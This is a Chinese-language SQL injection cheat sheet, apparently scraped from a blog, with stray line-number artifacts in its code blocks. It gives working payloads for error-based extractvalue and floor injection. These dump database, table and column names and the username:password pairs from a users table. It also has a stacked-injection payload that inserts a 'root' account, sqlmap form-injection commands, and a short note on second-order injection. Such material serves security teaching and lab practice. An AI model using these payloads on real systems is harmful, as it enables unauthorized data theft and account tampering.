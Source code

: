 - extractvalue

```sql
extractvalue(Xml_document,XMLstring)
    Xml_document：目标文档
    Xpathstring：XML路径
爆数据库名：
username=1' union select 1,(extractvalue(1,concat(0x7e,(select database())))) --+
爆数据库表名：
username=1' union select 1,(extractvalue(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema='test')))) --+
爆字段名：
username=1' union select 1,(extractvalue(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_schema='test' and table_name='users'))))--+
爆数据值：
username=1' union select 1,(extractvalue(1,concat(0x7e,(select group_concat(id,0x3a,username,0x3a,password) from security.users)))) --+
1234567891011
```

- floor

```sql
database()+floor(rand(0)*2)作为主键，
由于floor(rand(0)*2)只会产生0和1两个数字，因此主键只可能为database()+1和database()+0
而count(*)不只是0和1，插入的时候会出现主键重复，更加详细的见参考文章

#爆数据名
username=1' and (select 1 from  (select count(*),concat(database(),floor(rand(0)*2))x from  information_schema.tables group by x)a) --+
123456
```

##### 堆叠注入

多条SQL语句一起执行，每条语句中间用`;`隔开

```sql
username：aaa
password:bbb';insert into users(id,username,password) values(60,'root','root')

# SQLMAP跑表单注入

--form模式 sqlmap.py -u "ip/login.php" --form
sqlmap.py -u "ip/login.php" --data "username=admin&password=123123" --flush-session
sqlmap.py -r c:\数据包.txt
12345678
```

##### 二次注入

将攻击语句写入数据库，等待其他功能从数据库中调用攻击语句，在其他功能语句拼接的过程中没有过滤严格从而造成SQL注入
 原理：

> 攻击者第一次提交恶意输入
> 恶意输入存入数据库
> 攻击者二次提交输入
> 为了响应第二次的输入程序查询数据库取出恶意输入构造SQL语句形成二次注入
